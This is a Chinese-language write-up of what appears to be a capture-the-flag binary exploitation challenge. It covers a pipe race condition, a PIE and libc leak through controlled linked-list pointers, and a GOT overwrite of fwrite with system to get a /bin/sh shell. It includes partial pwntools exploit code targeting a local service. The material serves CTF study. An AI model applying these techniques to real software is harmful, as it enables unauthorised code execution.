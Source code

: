 达到同时写管道：通过信号量。先发送过去，然后信号量机制同时开始写

泄露pie：通过残留的next为NULL\_MESSAGE变量，而该变量存储着一个pie地址，可以通过printf\_message泄露

泄露libc:拿到pie了，我们依然可以通过上述管道竞争使得接受到的message是destory\_buffer构造的。然后此时message所有字段我们都可以控制，此时我们可以控制next为got表附近，使得next的next部分位于got表，然后可以泄露libc。写的时候需要指定index，我们可以先构造command\_flush的command结构体来清空index。然后再发送message然后才是指command\_redact。 注意保证next对应的next的next要为空

劫持程序流：直接写got表为system，构造next，使得对应的next的destory\_buf部分为got表，然后redact\_message修改为system函数`fwrite(message->destory_buf, 1uLL, (int)message->destroy_buf_len, devnull);`这里改fwrite,然后message-&gt;destory\_buf里设置为/bin/sh就好，最后handle\_message触发fwrite

exp
===

```python
from pwn import *
import threading
# Raw intereraction with challenge frontend
PIPE_BUF=65536
def send_message(message, author, sync: threading.Semaphore):
    try:
        r = remote("127.0.0.1", SERVICE_PORT)
        r.sendline(message)
        r.send(author)
        sync.acquire()
        r.send(b"\n")
        r.close()
    except:
        pass

# Helper function to inject a payload using the race condition
def send_stage(payload: dict):
    sync = threading.Semaphore()

    payload_raw = flat(payload)

    #payload = b""
    payload_raw += cyclic(PIPE_BUF-len(payload_raw))
    print("Starting threads...")
    for i in range(30):
        x = threading.Thread(target=send_message, args=(payload_raw,str(i).encode()*63, sync))
        x.start()

    print("Waiting for data to be sent")
    time.sleep(5)
    print("Triggering race condition!")
    sync.release(30)

### Helper functions to create C structs defined in challenge code
def build_message(message, author, next):
    return flat({
        0: 0,
        4: len(message),
        8: p64(next),
        16: author,
        16+64: message
    }, word_size=32)

def build_command(instruction, parm1 = 0, parm2 = 0):
    return flat({
        0: 1,
        4: instruction,
        8: p64(parm1),
        16: p64(parm2)
    }, word_size=32)
```